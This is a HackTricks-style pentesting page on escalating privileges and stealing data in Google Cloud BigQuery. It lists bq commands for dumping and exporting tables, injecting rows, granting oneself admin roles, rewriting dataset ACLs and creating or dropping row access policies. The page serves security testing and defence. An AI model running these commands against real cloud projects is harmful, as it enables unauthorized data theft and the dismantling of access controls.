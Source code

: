 # GCP - BigQuery Privesc

{{#include ../../../banners/hacktricks-training.md}}

## BigQuery

For more information about BigQuery check:

{{#ref}}
../gcp-services/gcp-bigquery-enum.md
{{#endref}}

### Read Table

Reading the information stored inside the a BigQuery table it might be possible to find s**ensitive information**. To access the info the permission needed is **`bigquery.tables.get`** , **`bigquery.jobs.create`** and **`bigquery.tables.getData`**:

```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```

### Export data

This is another way to access the data. **Export it to a cloud storage bucket** and the **download the files** with the information.\
To perform this action the following permissions are needed: **`bigquery.tables.export`**, **`bigquery.jobs.create`** and **`storage.objects.create`**.

```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```

### Insert data

It might be possible to **introduce certain trusted data** in a Bigquery table to abuse a **vulnerability in some other place.** This can be easily done with the permissions **`bigquery.tables.get`** , **`bigquery.tables.updateData`** and **`bigquery.jobs.create`**:

```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```

### `bigquery.datasets.setIamPolicy`

An attacker could abuse this privilege to **give himself further permissions** over a BigQuery dataset:

```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
    --member='user:<email>' \
    --role='roles/bigquery.admin' \
    <proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```

### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Just this permission allows to **update your access over a BigQuery dataset by modifying the ACLs** that indicate who can access it:

```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```

### `bigquery.tables.setIamPolicy`

An attacker could abuse this privilege to **give himself further permissions** over a BigQuery table:

```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
    --member='user:<email>' \
    --role='roles/bigquery.admin' \
    <proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```

### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

According to the docs, with the mention permissions it's possible to **update a row policy.**\
However, **using the cli `bq`** you need some more: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```

It's possible to find the filter ID in the output of the row policies enumeration. Example:

```bash
 bq ls --row_access_policies <proj>:<dataset>.<table>

      Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
 ------------- ------------------ ----------------------------- ----------------- --------------------
  apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```

If you have **`bigquery.rowAccessPolicies.delete`** instead of `bigquery.rowAccessPolicies.update` you could also just delete the policy:

```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```

> [!CAUTION]
> Another potential option to bypass row access policies would be to just change the value of the restricted data. If you can only see when `term` is `Cfba`, just modify all the records of the table to have `term = "Cfba"`. However this is prevented by bigquery.

{{#include ../../../banners/hacktricks-training.md}}



